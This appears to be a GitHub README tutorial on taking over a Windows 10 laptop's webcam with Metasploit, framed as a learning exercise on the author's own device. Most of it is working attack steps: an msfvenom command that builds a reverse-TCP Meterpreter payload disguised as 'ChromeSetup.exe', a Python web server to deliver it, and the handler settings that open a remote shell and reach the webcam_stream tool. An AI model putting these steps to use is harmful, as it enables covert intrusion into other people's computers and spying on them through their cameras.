 # Hack_Windows10-WebCam__
Hack a Windows 10 webcam – Metasploit

This project is for learning purposes only and is not to be used for malicious purposes. These tests were carried out on a personal device.
In this project i'm gonna learn how i can hack the webcam of my Windows 10 laptop.
(root mode requied)

1.......OK 
First of all i gonna use MSFVenom ! 
But what is MSFVenom ?

MFSVenom is a tool included in the Metasploit framework. It is the result of the merger of the former MSFpayload and MSFencode tools. MSFVenom will be used to create a payload 1  with an encoding. (or even multi-encoding) to evade antivirus software, for example. 
The tool is launched in a terminal.

2.......OK
mfsvenom -p windows/x64/meterpreter/reverse_tcp lhost=<ip-adress-kali(xxx.xxx.x.xx)> lport=<Listening-port (inmyexample1234> -f exe > ChromeSetup.exe

This command generates a payload for the Metasploit framework with the intention of creating a Windows executable (.exe).

Let's analyze :

||| mfsvenom: This is the main payload generation command in Metasploit.

||| -p windows/x64/meterpreter/reverse_tcp: This specifies the type of payload to be generated. In this case, it's a payload for 64-bit Windows architecture that uses the Meterpreter module to establish a reverse_tcp connection. This means that the target machine will connect outbound to the specified IP address to establish a remote control session.

||| lhost=<ip-adress-kali(xxx.xxx.x.xx)> This is the IP address of the attacker's machine listening to the connection and the target machine would attempt to connect to this IP address to establish a remote control session via the generated payload.

||| lport=<Listening-port>: This is the port on which we'll listen for the incoming connection(you can use 65 000 ports me i choosed 1234).

|||-f exe: This specifies the output format of the payload, in this case a Windows executable (.exe extension).

|||> ChromeSetup.exe: This redirects the command output to a file called "ChromeSetup.exe". This is the executable file that will be generated and potentially used in the context of an attack.

3.......OK
Next we want to start a python script in our Terminal window if python doesn't work try using python 2 or 3.

python -m SimpleHTTPServer 8080

This is a Python command used to launch a simple web server in the current directory. This server uses the specified port, in this example 8080.

Let's analyze :
||| python: This is the Python interpreter program.
||| -m SimpleHTTPServer: This is a built-in Python module called SimpleHTTPServer, which provides a basic HTTP server to serve files in the current directory.
||| 8080: This is the port number on which the server will listen for incoming connections.

Once you've executed this command, the web server will be started in the directory from which you issued the command. You'll be able to access the files in this directory via a web browser, using the address http://localhost:8080 in this case.

IMPORTANT NOTE :
When I was writing this, I learned that the python command -m SimpleHTTPServer 8080 uses the SimpleHTTPServer module that was present in versions of Python 2.x. However, if you're using Python 3.x, this module has been replaced by the http.server module.
Here's how you can run a simple HTTP server with Python 3.x : python -m http.server 8080

4.......OK
Now launch Metasploit : (msfconsole -q) to start the Metasploit framework in console mode (msfconsole) with the -q option, which stands for "quiet". The -q option is used to start Metasploit in silent mode, which means that banners and welcome information will not be displayed on startup.

You should see the msf6 tag appear:

1-
msf6 > use exploit/multi/handler---------------------------------------------------Is used to configure Metasploit as an exploit manager. The exploit manager is used to listen for reverse shells generated by exploits or payloads running on target machines.

2-Set the payload you want to release
msf6 > set payload windows/x64/meterpreter/reverse_tcp---------------------------Is used to define the type of payload you wish to use. The payload specified determines the behavior of the payload that will be delivered to the target machine upon successful exploitation.

3-Set the lhost ip of your kali machine(if you are on kali)
msf6 > set lhost <ip-adress-kali(xxx.xxx.x.xx)>--------------------The set LHOST XXX.XXX.X.XXX command in Metasploit is used to define the IP address on which the operating manager listens for return connections. In this example, the specified IP address is XXX.XXX.X.XXX

4-Set the port 
msf6 > set lport 1234

5-Use Run or Exploit for launch

Now u can see 1 session open kali --> windows10
You can tap shell to have the connection confirmation
Now you are in the windows pc D:\> tap help to watch the differents windows files
Tap exit and now meterpreter > help you can see now tools for metasploit like webcam_stream.

!-------!
Error help list : 

OSError: [Errno 98] Address already in use" indique que le port 8080 est déjà utilisé par un autre processus. Pour résoudre ce problème : Utiliser un Autre Port ou Trouver et Terminer le Processus Utilisant le Port : Vous pouvez identifier le processus qui utilise le port et le terminer. Sur Linux, vous pouvez utiliser la commande lsof pour cela. Par exemple : sudo lsof -i :8080 Cette commande vous montrera quel processus utilise le port 8080. Vous pouvez ensuite terminer ce processus avec la commande kill : sudo kill -9 <PID NUMBER>
